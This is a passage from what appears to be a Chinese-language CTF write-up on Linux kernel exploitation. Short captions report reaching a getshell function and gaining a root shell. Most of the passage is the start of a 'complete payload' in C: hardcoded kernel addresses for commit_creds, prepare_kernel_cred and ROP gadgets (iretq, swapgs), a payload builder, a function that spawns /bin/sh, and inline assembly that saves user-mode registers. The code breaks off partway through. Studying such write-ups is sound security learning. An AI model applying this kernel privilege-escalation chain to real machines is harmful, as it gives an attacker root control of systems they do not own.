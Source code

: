![1580189553138](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580189553138.png)

执行下去成功到达getshell函数

![1580189602263](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580189602263.png)

拿到root shell

![1580189674431](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580189674431.png)

完整payload

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

#define commit_creds 0xffffffff81081290
#define prepare_kernel_cred 0xffffffff81081480
#define prdi_ret 0xffffffff8133791d
#define rax2rdi_prbp_ret 0xffffffff812858df
#define prcx_ret 0xffffffff810d7b73
#define rax2rdi_callrcx 0xffffffff81118825
#define rax2rdi_c_prbp_ret 0xffffffff812858dc
#define iretq 0xffffffff8100c93a
#define swapgs_pfq 0xffffffff8100ce6a
#define back 0xffffffff8100bfad
#define prcx 0xffffffff810d7b73

char payload[1000] = {0};
int payload_len = 0;

void join_data(long long data)
{
    unsigned char buf[8] = {0};
    memcpy(buf, &data, 8);
    memcpy(payload + payload_len, buf, 8);
    payload_len += 8;
}

void join_str(char *buf)
{
    int len = strlen(buf);
    memcpy(payload + payload_len, buf, len);
    payload_len += len;
}

void get_shell()
{
    execl("/bin/sh", "sh", NULL);
}

unsigned long long user_cs, user_ss, user_rflags;

static void save_state() 
{
    asm(
    "movq %%cs, %0\n"
    "movq %%ss, %1\n"
    "pushfq\n"
    "popq %2\n"
    : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory");
    //printf("%p,%p,%p", user_cs, user_ss, user_rflags);
```